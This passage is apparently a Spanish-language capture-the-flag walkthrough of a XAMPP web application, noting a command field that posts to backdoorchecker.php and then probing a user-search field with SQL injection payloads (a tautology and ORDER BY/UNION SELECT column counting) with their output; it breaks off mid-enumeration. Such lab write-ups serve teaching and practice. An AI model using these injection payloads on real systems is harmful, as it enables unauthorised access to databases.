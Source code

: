 1. Nos conectamos a la web como el usuario admin.

Hay un link user.txt que nos muestra un mensaje TODO que seria de mover todos los ficheros al Default Xampp folder.
Buscando por internet vemos que este directorio seria 
```bash
 C:\xampp\htdocs 
```
.

En la pagina principal, vemos un panel de administracion. Aqui vemos 2 cosas,

- Un campo que nos permitiria ejecutar comandos en la maquina victima
- Un campo Search users que es en beta. Nos permite buscar usuarios por su ID

El campo para ejecutar comandos no funcciona porque tendriamos que estar loggeado desde la maquina victima atacando este servicio por localhost.
Ademas con Burpsuite, vemos que esta utilidad lanza una peticion a 
```bash
 /admin/backdoorchecker.php 
```
 con un parametro 
```bash
 cmd=... 
```


Como no podemos hacer gran cosa por el momento, analyzamos el campo de busqueda de usuarios.

```bash
1 -> admin
2 -> gio
3 -> s4vitar
1' -> There is a problem with your SQL syntax
```

### SQL Injection {-}

```bash
1' or 1=1-- - 
#Output
1,admin
2,gio
3,s4vitar
```

Seguimos la guia normal de un SQLI

1. Cuantas columnas hay

    ```bash
    1' order by 100-- -         -> There is a problem with your SQL syntax
    1' union select 1,2-- -     -> There is a problem with your SQL syntax
    1' union select 1,2,3-- -
    #Output
    1,admin
    1,2
    ```
